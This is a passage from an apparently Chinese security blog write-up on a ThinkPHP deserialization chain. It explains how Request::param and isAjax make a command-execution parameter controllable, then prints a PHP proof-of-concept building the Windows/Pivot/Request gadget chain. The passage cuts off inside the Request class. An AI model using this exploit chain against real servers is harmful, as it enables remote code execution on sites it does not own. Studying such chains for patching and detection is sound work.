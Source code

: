 找到了param，看return $this->input($this->param, $name, $default, $filter);this->param是由本来的$this->param，还有请求参数和URL地址中的参数合并。所以把要执行的命令卸载get参数里即可。

但是这里参数还是不可控。。。。继续找

![](https://cdn.jsdelivr.net/gh/ITroyeSivan/picture/blogpictures/20210927163148.png)

找到isAjax函数，config是可控的。所以param中name就是可控的

为了看的更清楚些，画了个简图：

![](https://cdn.jsdelivr.net/gh/ITroyeSivan/picture/blogpictures/WD11ISLBESREHK%7DG2_LDKF2.jpg)

POC：

	<?php
	namespace think\process\pipes{

    	use think\model\Pivot;

    	class Windows
    	{
        	private $files = [];
        	public function __construct(){
            	$this->files[]=new Pivot();
        	}
    	}
	}
	namespace think{
    	abstract class Model
    	{
        	protected $append = [];
        	private $data = [];
        	public function __construct(){
            	$this->data=array(
              	'Troy3e'=>new Request()
            	);
            	$this->append=array(
                	'Troy3e'=>array(
                    	'sakurajima'=>'mai'
                	)
            	);
        	}
    	}
	}
	namespace think\model{

    	use think\Model;

    	class Pivot extends Model
    	{

    	}
	}
	namespace think{
    	class Request
    	{
        	protected $hook = [];
        	protected $filter;
        	protected $config = [
            	// 表单请求类型伪装变量
            	'var_method'       => '_method',
            	// 表单ajax伪装变量
            	'var_ajax'         => '',
            	// 表单pjax伪装变量
            	'var_pjax'         => '_pjax',
            	// PATHINFO变量名 用于兼容模式
            	'var_pathinfo'     => 's',